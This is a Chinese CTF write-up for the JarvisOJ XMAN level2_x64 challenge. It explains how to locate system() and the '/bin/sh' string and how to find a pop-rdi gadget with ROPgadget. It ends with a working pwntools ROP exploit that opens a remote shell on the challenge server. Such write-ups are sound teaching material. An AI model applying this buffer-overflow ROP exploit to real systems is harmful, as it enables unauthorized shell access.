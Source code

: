 ```yaml
---
layout: post
title: 「JarvisOJ」XMANlevel2_x64题解
date: 2018-08-10 13:10:00
author:     "许大仙"
tags:
    - CTF
---
```


## 一、解题思路 ##

checksec查看，是老样子，和level0的情况一样。

![checeksec查看](/assets/img/checksec2(64).jpg)

对比level0_x64和level2_x64反汇编后的结果

-  vulnerable_function都一样
-  main函数有所不同。

![对比图1](/assets/img/diff2.jpg)

发现main函数中有system的调用，system函数本身位于libc库中，是通过PLT+GOT表实现调用的，一方面可以通过ELF模块获得system_plt,间接调用system函数。

函数列表中不在有level0的callsystem。但是字符串列表也没有“/bin/sh”

![对比图2](/assets/img/sys_str2.jpg)

没有callsystem，但是我们找到了main中有call system[位于程序本身的.text节,NO PIE,代码段静态不变]，可是少了参数的设置。

我在window下IDA反汇编level2_x64是可以看到“/bin/sh”的，在.data段中。或者用ROPgadget工具也可以找到“/bin/sh”[可能是linux上低版本IDA，不能获取.data段的字符串]

![window下IDA反汇编level2_x64](/assets/img/win_bin.jpg)

> .data:0000000000600A90	00000008	C	/bin/sh

在地址0x0000000000600A90下，我的Ubuntu的IDA情况是：

![“bin/sh”字符串的某种数值格式](/assets/img/bin_str.jpg)
![“bin/sh”字符串](/assets/img/bin_str0.jpg)

![“bin/sh”字符串](/assets/img/bin_str00.jpg)

确实是存在的只是没有记录在string windows窗口里面。


> 如果在linux的IDA下要找.data节的字符情况，快捷键ctrl+S显示各个节，双击.data跳转到.data节

通过以上的分析就获得了调用system函数的固定地址和"/bin/sh"的固定地址["/bin/sh"位于程序本身的.data节，NO PIE情况下，数据节固定地址]

----------

万事俱备，就差把"/bin/sh"的地址pop到%rdi，作为system函数的参数。

这时候就要**引入搜索ROP链的工具ROPgadget.**[ROP链：以**ret**/call/jmp结尾的程序片段，用以实现指令片段执行流的衔接]

> ROPgadget --binary level2_x64 --only "pop|ret"|grep rdi     

> --binary引入二进制文件

![利用ROPgadget工具获得所需的汇编指令](/assets/img/ropgadget.jpg)

运气不错，搜索到了。pop %edi + ret，可以通过布置栈空间，利用pop %edi将"/bin/sh"的地址pop到%rdi，再ret将call system的地址pop到%rip中


注：ROPgadget工具不仅仅能搜索ROP链那么简单，还可以在程序的汇编代码中搜索字符串。

> ROPgadget --binary level2_x64 --string "/bin/sh"

![利用ROPgadget工具搜索字符串](/assets/img/ropstr0.jpg)



## 二、解题步骤 ##

    #!/usr/bin/puthon
    from pwn import *
    context(arch="amd64",os="linux",log_level="debug")
    re = remote("pwn2.jarvisoj.com",9882)
    
    sys_addr = 0x000000000040063E 
    #或者elf = ELF("./level2_x64")和sys_addr = elf.plt['system']来得到system函数调用地址
    bin_addr = 0x0000000000600a90
    pr_addr = 0x00000000004006b3
    
    payload = 'a'*0x80 +'a'*0x8 + p64(pr_addr) + p64(bin_addr) + p64(sys_addr)


​    
    re.recvline()
    re.send(payload)
    #一开始在这里加了re.recvline()，以为要接收“hello world”，结果运行python xlevel2_x64.py就停止了。
    #原因很显然，没有和远程靶机交互[即还未到达re.interactive()]，远程主机创建了一个shell子进程，一直等待着输入
    #但是我们的攻击主机在等待接收recvline，于是就僵住了。
    #所以要先交互interactive()，接入远程靶机的shell，进行输入ls+cat flag
    re.interactive()


![获得靶机shell,拿到flag](/assets/img/ans2.jpg)



参考链接：

- https://blog.csdn.net/qq_38204481/article/details/80954747
- https://www.cnblogs.com/ZHijack/p/7940686.html